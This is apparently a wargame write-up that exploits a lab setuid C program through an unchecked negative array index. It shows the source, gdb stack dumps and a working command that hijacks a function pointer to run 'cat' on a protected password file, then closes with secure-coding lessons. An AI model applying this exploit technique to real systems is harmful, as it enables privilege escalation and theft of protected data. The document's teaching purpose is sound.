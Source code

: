 ## Level 3: validate user input and array boundaries

As before,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's first play with the program to see what it does:
```
level02@box:~$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
level02@box:~$ /levels/level03/level03 0 hello
Uppercased string: HELLO
level02@box:~$ /levels/level03/level03 2 hello
Capitalized string: Hello
level02@box:~$ /levels/level03/level03 3 hello
Length of string 'hello': 5
```

It takes a string and runs some function on it depending on the index parameter.
Let's try to misuse this, for example with a negative index:
```
level02@box:~$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls `truncate_and_call` with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

It truncates the string to 64 characters,
takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`,
which happens to be on the stack.
The stack is a memory region to store local variables,
function parameters, return values, among others.
The details depend on the CPU architecture,
but roughly the following happens when `truncate_and_call` is called from `main`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions

2. The pointer to the next line of code in `main` is pushed on the stack

3. The function `truncate_and_call` is called

4. The local variable `buf` is pushed on the stack

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
...
0x00??      content of index
0x00??      content of user_string
```

If index is 0-3,
the program will find the address of `to_upper`, `to_lower`, and so on, respectively,
and execute it.
Using a negative index,
the program will do the same with whatever it finds at the pointed location.

Now,
if the content of `buf` is stored before `fns`,
we can put there the address of another function,
and use an appropriate negative index to make the program execute it.
This unused `run` function looks perfect for our purposes:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it in the shell.
Since we can control the parameter,
we can make the program run whatever we want.

We can find the address of `run` using `objdump`:
```
level02@box:/levels/level03$ objdump -d level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```

To find the right negative index,
we need to figure out the distance between `fns` and `buf` in the memory.
We can do that using `gdb`:
```
level02@box:/levels/level03$ gdb ./level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
```

That is,
we run the program with a negative index to make it crash,
and `AAAAAAAA` as the string to make it easy to spot when we look at the memory content.
When the program crashes,
`gdb` outputs the address of the code it could not execute,
in this example `0xb77e1334`.
Let's see the first couple of bytes of the stack:
```
(gdb) x/60xw $sp      
0xbfae3d5c: 0xbfae3dd8  0x00000001  0x00000000  0x00000000
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

The string `AAAAAAAA` is easy to spot,
now we know that `buf` starts at `0xbfae3d6c`.
And since `fns[-1]` contains `0xb77e1334`,
now we also know that `fns[0]` is at `0xbfae3dd8`.
Before we can calculate the correct negative index,
consider that we need to use `buf` for more than one thing:

1. It should contain the address of the `run` method somewhere in it.

2. It should start with a suitable shell command to
   reveal the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
The difference between `fns` and the jump address is `0xbfae3dd8 - 0xbfae3d88 = 80`,
and since the size of an element in `fns` is 4 bytes,
the index we're looking for is `-80 / 4 = -20`:
```
level02@box:/levels/level03$ ./level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example.

- Always check array boundaries,
  make sure they are not breached at either end.

- Remove unused, deprecated code,
  especially if it's potentially dangerous.

